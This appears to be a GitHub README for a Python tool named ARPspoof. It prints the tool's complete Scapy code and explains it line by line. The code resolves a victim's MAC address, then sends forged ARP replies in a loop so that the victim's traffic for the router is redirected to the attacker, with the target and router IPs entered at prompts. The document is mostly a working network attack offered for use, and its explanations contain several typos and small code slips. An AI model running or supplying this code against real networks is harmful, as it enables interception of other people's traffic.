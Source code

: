 ## Description
***
ARPspoof is a tool written in python designed to perform ARP spoofing attack.
This tool allows the user to manipulate and intercept network traffic, is able to find MAC address from the victim IP address

ARP (address resolution protocol) a protocol that links an IP addres with a MAC of an endpoint.
## Code explanation
***
```
import subprocess, time
import scapy.all as scapy
from termcolor import colored as cl
from pyfiglet import figlet_format as ff
```
##### `import subprocess, time`
***
subprocess is a module that allows you to spawn new processes.
`time` is a time management function.

##### `import scapy.all as scapy`
***
Scapy is a powerful interactive packet manipulation library written in Python. Scapy is able to forge or decode packets of a wide number of protocols, send them on the wire, capture them, match requests and replies, and much more.
import `scapy.all` assigns the alias `scapy`.

##### `from termcolor import colored as cl`
***
Termcolor is an ANSI color formatting for output in terminal
import the function `colored` from `termcolor` library and assigns alias `cl`.

##### `from pyfiglet import figlet_format as ff`
***
It takes ASCII text and renders it in ACII art fonts 
import `filglet_format` from `pyfiglet` library and assigns alias `ff`.

```
def get_mac_address(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
    broadcast_arp_request = broadcast/arp_request
    data = scapy.srp(broadcast_arp_request, timeout=1,        verbose=False)[0]
    mac = data[0][1].hwsrc
    return mac
```

create an ARP packet that requestthe MAC address associated with the given IP, this packet is encapsulated into the ethernet packet, srp send the packet and wait for reaponse, the MAC got extracted from the response
#### def get_mac_address(ip)
***
definition of the function `get_mac_address`, take the IP address and uses to make ARP request.

#### arp_request = scapy.ARP(pstd=ip)
***
scapy.ARP create an ARP request, protocol destination (pdst) set the destination IP.


#### broadcast = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
***
create an ethernet packet, with broadcast MAC setted.

#### broadcast_arp_request = broadcast/arp_request
***
we used `/` to combine both ARP and broadcast ethernet Packet, this will make the endpoint to answer back with his MAC address.

#### data = scapy.srp(broadcast_arp_request, timeout=1, verbose=False)[0]
***
`srp()` function send packet and recives packets at layer, `broadcas_arp_request` the packet we created, 
`timeout=1` wait 1 second,
`false` disable the detailed output, 
`srp` return a tuple, where the first element contain all the responses, [0] take that list

#### mac = data{0}{1}.hwsrc
***
the MAC address got extracted from the answer, `data` take the element from the list that contains request and response, `[1]` take the request
`hwsrc` contains the MAC address of the endpoint who sended the response

#### return = mac
***
output the MAC 

```
def arp_spoofing(tip, rip):
    tmac = get_mac_address(tip)
    cnt = 0
    while True:
        try:
            print(cl('='*50, 'red'))
            print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing program\n\t\t\t-An AYLIT production', 'red'))
            print(cl('='*50, 'red'))
            packet = scapy.ARP(op=2, pdst=tip, hwdst=tmac, psrc=rip)
            scapy.send(packet, verbose=False)
            cnt += 2
            print(cl(f'Packets sent: {str(cnt)}', 'green'))
            time.sleep(1)
            subprocess.call('clear', shell=True)
        except KeyboardInterrupt:
            print(cl(f'Quitting program...', 'red'))
            break
```

#### def arp_spoofing(tip, rip)
***
definition of the function `arp_spoofing(tip, rip)` target ip/router ip
#### tmac = get_mac_address(tip)
call the function `get_mac_address` taking the MAc of the target ip, the result is stored into tmac

#### cnt = 0
***
count the packet and track the number of packets

``` 
while True:
        try:
            print(cl('='*50, 'red'))
            print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing
            program\n\t\t\t-An AYLIT production', 'red'))
            print(cl('='*50, 'red'))
            packet = scapy.ARP(op=2, pdst=tip, hwdst=tmac psrc=rip)
            scapy.send(packet, verbose=False)
            cnt += 2
            print(cl(f'Packets sent: {str(cnt)}', 'green'))
            time.sleep(1)
            subprocess.call('clear', shell=True)
        except KeyboardInterrupt:
            print(cl(f'Quitting program...', 'red'))
            break
```
***
`print(cl('='*50, 'red'))
`print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing
`program\n\t\t\t-An AYLIT production', 'red'))print(cl('='*50, 'red'))` graphic stuff

#### packet = scapy.ARP(op=2, pdst=tip, hwdst=tmac psrc=rip)
***
create a packet containing all the components, `op=2` specify the kind of ARP operation 2 specify response, `pdst=tip` set the destination IP, `hwdst=tmac` set the MAC, `psrc=rip` set the source IP that will be covered with rip

#### scapy.send(packet, verbose=False)
***
send the packet, `false` supress the detailed output


`cnt += 2` +2 on the counter
`print(cl(f'Packets sent: {str(cnt)}', 'green')` print the number of packets sent
`time.sleep(1)` introduce 1 second pause

#### subprocess.call(`clear`, shell=True)
***
clear the terminal

#### except KeyboardInterrupt: print(cl(f'Quitting program...', 'red')) break
***
when a user press `ctrl + c` an exit message get printed, `break` quit the cicle

```
subprocess.call('clear', shell=True)

print(cl('='*50, 'red'))
print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing program\n\t\t\t-An AYLIT production', 'red'))
print(cl('='*50, 'red'))

target_ip = input(cl("Enter the target's IP:", 'yellow'))
router_ip = input(cl("Enter the router's IP:", 'yellow'))
subprocess.call('clear', shell=True)

arp_spoofing(target_ip, router_ip)
```

#### subprocess.call('clear', shell=True)
***
clear the terminal

`print(cl('='*50, 'red'))
`print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing program\n\t\t\t-An AYLIT production', 'red'))
`print(cl('='*50, 'red'))`  
***
graphic stuffs

#### target_ip = input(cl("Enter the target's IP:", 'yellow'))
***
ask the user to insert target IP

#### router_ip = input(cl("Enter the router's IP:", 'yellow'))
***
ask the user to insert router IP

#### subprocess.call('clear', shell=True)
clear the terminal

#### arp_spoofing(target_ip, router_ip)
***
call the function `arp_spoofing` using the target/router IP asked
